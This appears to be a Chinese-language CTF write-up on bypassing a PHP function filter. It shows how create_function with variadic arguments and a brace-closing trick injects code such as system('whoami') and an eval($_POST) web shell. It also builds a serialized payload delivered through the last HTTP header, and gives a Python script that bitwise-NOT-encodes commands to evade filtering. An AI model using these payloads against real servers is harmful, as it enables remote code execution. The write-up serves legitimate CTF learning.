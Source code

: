 ```
var_dump
highlight_file
show_source
ini_get
end
apache_setenv
getallheaders
```

我们需要执行`eval`，可以利用`create_function`

这里逗号被过滤，为了传入参数，我们可以使用可变参数列表实现

在PHP 5.6以后，参数列表可以包括…，他表示函数接受可变数量的参数。参数将作为数组传递到给定的变量中

```php
<?php
$args=['','}system("whoami");//'];
create_function(...$args);
?>
```

原理：create_function,相当于创建了一个函数，利用`}`闭合前面的`{`,然后执行代码，最后利用`//`来注释点后面的`}`



因为过滤函数太多，我们构造

```php
create_function(...unserialize(end(getallheaders())))
```

create_funtion本质是语法解析的。可以直接注入eval

```
end — 将array的内部指针移动到最后一个单元并返回其值。    
getallheaders — 获取全部 HTTP 请求头信息，得到一个数组（有键值对）
```

构造序列化内容

```php
<?php
$arr=['','}eval($_POST["a"]);//'];
$str=serialize($arr);
echo $str;
```

就是将这串得到的序列化字符，放在http保报文头部最后，然后反序列化，就可以触发代码

异或脚本，不被过滤的cmd

```php
def one(s):
    ss = ""
    for each in s:
        ss += "%" + str(hex(255 - ord(each)))[2:].upper()
    return f"[~{ss}][!%FF]("

while 1:
    a = input(":>").strip(")")
    aa = a.split("(")
    s = ""
    for each in aa[:-1]:
        s += one(each)
    s += ")" * (len(aa) - 1) + ";"
	print(s)

```
